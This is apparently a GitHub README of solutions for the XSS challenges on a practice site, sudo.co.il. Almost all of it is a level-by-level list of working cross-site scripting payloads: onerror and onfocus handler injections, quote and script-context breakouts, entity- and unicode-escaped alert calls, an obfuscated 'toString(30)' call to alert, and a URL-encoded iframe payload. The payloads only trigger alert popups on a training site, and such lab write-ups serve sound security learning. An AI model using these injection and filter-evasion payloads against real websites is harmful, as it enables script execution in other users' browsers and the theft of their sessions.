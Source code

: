 <!-- 
description: XSS Challenges and solutions for learning web security and bug bounty. Practice real-world XSS attacks.

keywords: XSS, Cross Site Scripting, bug bounty, cyber security, CTF, XSS challenges, XSS labs, ethical hacking, sudo.co.il ,solution ,solution of sudo.co.il
-->


<p align="center">
  <img src="https://github.com/brono4/XSS-challenges/blob/main/XSS.jpg?raw=true" alt="XSS Challenge">
</p>



# 🚨 Solutions of XSS Challenges of http://sudo.co.il/xss/

---
## 🎯 Goal for CTFs:

**Our goal is to trigger a popup displaying  — all without requiring any user interaction! 🚫🖱️**


##  🔓 Challenge Solutions

- Level 0 🧪
```
<img src=1 onerror=alert(document.domain)>
```
- Level 1🧪
```
"><img src=1 onerror=alert(document.domain)>
```

- Level 2 🧪
```
" autofocus onfocus=alert(1) x="
```
- Level 3 🧪
```
"autofocus/onfocus="alert(document.domain)
```

- Level 4 🧪
```
"autofocus/onfocus="&#x61;lert&#x28;document.domain&#x29;
```

- Level 5.1 🧪
```
'-alert(document.domain);<!--
```
- Level 5.2 🧪
```
\'-alert(1);<!--
```
- Level 6 🧪
```
\'-alert(document.domain);//
```
- Level 7 🧪
```
" autofocus onfocus=alert(1) x="    #like 2
```
- Level 8 🧪
```
this[8680439..toString(30)](document.domain)
```
- Level 8.1 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 9 🧪
```
"};this[8680439..toString(30)](document.domain);{"
```
- Level 10 🧪
```
';this[8680439..toString(30)](document.domain);'
```

- Level 11 🧪
```
#<script>alert(document.domain)</script>
```
🧨 Level 12 — External Payload Injection

📎 Go to: http://untrusted.sudo.co.il/iframe.php?p=

Paste the following encoded payload:

%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

🔗 Final link:

http://untrusted.sudo.co.il/iframe.php?p=%27%3Bal%5Cu0065rt%28m%29%3B%2F%2F

---
## 👨‍💻 Author
💻 Made with ❤️ by Bruno.





